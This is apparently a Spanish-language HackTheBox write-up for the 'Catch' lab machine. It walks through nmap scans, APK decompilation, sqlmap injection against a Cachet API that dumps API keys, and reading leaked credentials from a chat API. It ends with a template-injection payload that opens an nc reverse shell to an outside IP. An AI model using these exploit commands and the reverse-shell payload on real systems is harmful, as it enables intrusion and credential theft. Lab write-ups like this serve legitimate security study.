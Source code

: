 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Catch              |
| Os                     | Linux              |
| Difficulty             | Medium             |
| Points                 | 30                 |
| IP                     | 10.10.11.150       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Catch/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.11.150
```

![Nmap 1](/assets/images/Catch/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

![Nmap 2](/assets/images/Catch/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos.

![Nmap 3](/assets/images/Catch/nmap3.png)

Despues veremos mas sobre los servicios que corren en el puerto 80, 3000, 5000 y 8000 con whatweb.

![whatweb](/assets/images/Catch/whatweb.png)


![Landing page](/assets/images/Catch/landing_page.png)


Despues de que seguimos navegando por el servicio web, nos encontramos con un .apk, el cual lo descompilaremos con <a href="https://github.com/pxb1988/dex2jar.git">d2j-dex2jar.sh</a>. Una vez clonado y correr ./gradlew distZip , navegaremos a dex2jar/dex-tools/build/distributions/dex-tools-2.2-SNAPSHOT. El comando para ejecutar la aplicacion es:

```s
sh d2j-dex2jar.sh -f /home/rebick/Documents/HtB/Catch/name.apk
```

Buscando en el codigo fuente, encontramos un link dirigido a `https://status.catch.htb`, asi que agregaremos este dominio a nuestro `/etc/hosts`

![Function that call subdomain.](/assets/images/Catch/pointing_subdomain.png)

Ahora analizaremos el dominio con <a href="https://github.com/MobSF/Mobile-Security-Framework-MobSF">MobSF.</a>Con esta herramienta encontraremos tokens de mucha importancia y podremos explotarlos despues. Por ahora, solo nos enfocaremos en `https://status.catch.htb`. Primero hay que iniciar el servicio y visitarlo en el navegador.

```s
#Para iniciar la herramienta
sh ./run.sh
```

Una vez ejecutada la herramienta, abrimos el navegador y ponemos `http://localhost:8000/`, el dashboard nos pedira soltar el .apk ahi mismo e iniciara el analisis. Despues de que concluya, nos vamos a la parte de Analysis

![Secrets](/assets/images/Catch/secrets.png)

En este dominio se encontro que es usado el frame Cachet, la otra evidencia indica que hay vulnerabilidades de SQLI, y vulnerabilidades de ejecusion de comandos.
Usaremos sqlmap para detectar estas vulnerabilidades.

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+"
```

![SQL Payload](/assets/images/Catch/SQLpayload.png)

Vamos por la webshell

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```

Primero Obtenemos el json de Rooms.

```json
[{"id":"61b86b28d984e2451036eb17",
"slug":"status",
"name":"Status",
"description":"Cachet Updates and Maintenance",
"lastActive":"2021-12-14T10:34:20.749Z",
"created":"2021-12-14T10:00:08.384Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b8708efe190b466d476bfb",
"slug":"android_dev",
"name":"Android Development",
"description":"Android App Updates, Issues & More",
"lastActive":"2021-12-14T10:24:21.145Z",
"created":"2021-12-14T10:23:10.474Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b86b3fd984e2451036eb18",
"slug":"employees",
"name":"Employees",
"description":"New Joinees, Org updates",
"lastActive":"2021-12-14T10:18:04.710Z",
"created":"2021-12-14T10:00:31.043Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]}]
```

Y ahora descargamos

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages
```

En este response, obtuvimos la contrasena de john.

```json
[{"id":"61b8732cfe190b466d476c02",
"text":"ah sure!",
"posted":"2021-12-14T10:34:20.749Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8731ffe190b466d476c01",
"text":"You should actually include this task to your list as well as a part of quarterly audit","posted":"2021-12-14T10:34:07.449Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b872b9fe190b466d476c00",
"text":"Also make sure we've our systems, applications and databases up-to-date.","posted":"2021-12-14T10:32:25.514Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87282fe190b466d476bff",
"text":"Excellent! ",
"posted":"2021-12-14T10:31:30.403Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87277fe190b466d476bfe",
"text":"Why not. We've this in our todo list for next quarter",
"posted":"2021-12-14T10:31:19.094Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87241fe190b466d476bfd",
"text":"@john is it possible to add SSL to our status domain to make sure everything is secure ? ",
"posted":"2021-12-14T10:30:25.108Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8702dfe190b466d476bfa",
"text":"Here are the credentials `john :  E}V!mywu_69T4C}W`",
"posted":"2021-12-14T10:21:33.859Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87010fe190b466d476bf9",
"text":"Sure one sec.",
"posted":"2021-12-14T10:21:04.635Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86fb1fe190b466d476bf8",
"text":"Can you create an account for me ? ",
"posted":"2021-12-14T10:19:29.677Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86f4dfe190b466d476bf6",
"text":"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me. ",
"posted":"2021-12-14T10:17:49.761Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"}] 
```

Encontramos la cuenta y contrasena `john : E}V!mywu_69T4C}W`. El apiKey de john fue encontrada por medio de SQLInjection.
Lo siguiente por hacer es 

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump
```

Ahora podemos usar burpsuite para insertar el response de la siguiente forma:


![Burpsuite](/assets/images/Catch/burpsuite_john_response.png)

![SSLI](/assets/images/Catch/ssli.png)

En el SSLI pondremos 

```s
{% raw %}
{{%["rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 8081 >/tmp/f"] | filter("system") | join(",")%}} 
{% endraw %}
```
para establecer una reverse shell y ponernos en escucha por el puerto 443